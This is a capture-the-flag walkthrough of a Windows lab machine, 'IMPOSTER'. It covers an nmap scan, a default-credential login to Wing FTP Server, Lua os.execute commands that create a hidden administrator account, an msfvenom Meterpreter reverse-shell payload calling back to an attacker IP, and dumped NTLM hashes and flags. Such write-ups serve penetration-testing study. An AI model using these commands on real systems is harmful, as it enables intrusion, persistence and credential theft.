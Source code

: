 # IMPOSTER

![](../.gitbook/assets/34ab211305704b77bef1df22453c3d3a.png)

## NMAP SCAN

```text
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1025/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1026/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1027/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1028/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1035/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1036/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
1037/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http-proxy         syn-ack ttl 127 Wing FTP Server(UNREGISTERED)
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

## PORT 8080 ENUMERATION

![](../.gitbook/assets/b5ddcefba1b74c50a3ba041bc3620ca6.png)

![](../.gitbook/assets/cb8f6cfdd95b4e64a6dc3ac07dd71863.png)

* CREDS ADMIN:PASSWORD WORKED

![](../.gitbook/assets/d9e143bd9d574703999e132cc222cee0.png)

![](../.gitbook/assets/7ac15b99661d4bcdad288fdc21b189e4.png)

## EXPLOIT

### 1. ADDING NEW USER \( DIDN'T WORK FOR ME\)

* [https://www.hackingtutorials.org/exploit-tutorials/hacking-and-securing-wing-ftp-server-4-3-8/](https://www.hackingtutorials.org/exploit-tutorials/hacking-and-securing-wing-ftp-server-4-3-8/)

```text
os.execute(‘cmd.exe /c "net user livestep livestep /add"’)

os.execute(‘cmd.exe /c net localgroup administrators livestep /add’)

os.execute('cmd /c net localgroup "Remote Desktop Users" livestep /add')
```

### 2. UPLOADING A REVERSE SHELL \(MSFVENOM\)\(WORKED\)

```text
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.0.63 LPORT=7777 -f exe -o shell.exe
```

* CATCH A POST REQUEST OF CONSOLE IN BURP AND CHANGE TO

![](../.gitbook/assets/fd82f306d34d44408ef5582570281316.png)

* CERTIFIES THAT UPLOADS

![](../.gitbook/assets/2dd54ff96dca4db88094f2fbb6ddcd7a.png)

* RUN

![](../.gitbook/assets/48ac9a7aafdc45b1856e951bd39f3a22.png)

* GET A SHELL

![](../.gitbook/assets/3ada8aa3fbd94b749903ab74f4c30c09.png)

## PRIVESC

![](../.gitbook/assets/5b13947a59cf4777991b8590bd6ba231.png)

![](../.gitbook/assets/babb422d26ee47beaaa4cbb317faa8fd.png)

![](../.gitbook/assets/54defa1077aa4e7fabe61f164de73b42.png)

## CREDS

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ea9d2e8b58df24462a5851752a4b3f7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lian:1009:aad3b435b51404eeaad3b435b51404ee:641922e4a2f6421c2dd0328610eaa75c:::
```

## FLAGS

### USER

```text
cad14501e31203841c87fe62f4033605
```

### ROOT

```text
0fae2c56cb5999b9ca977984e7e4646c
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

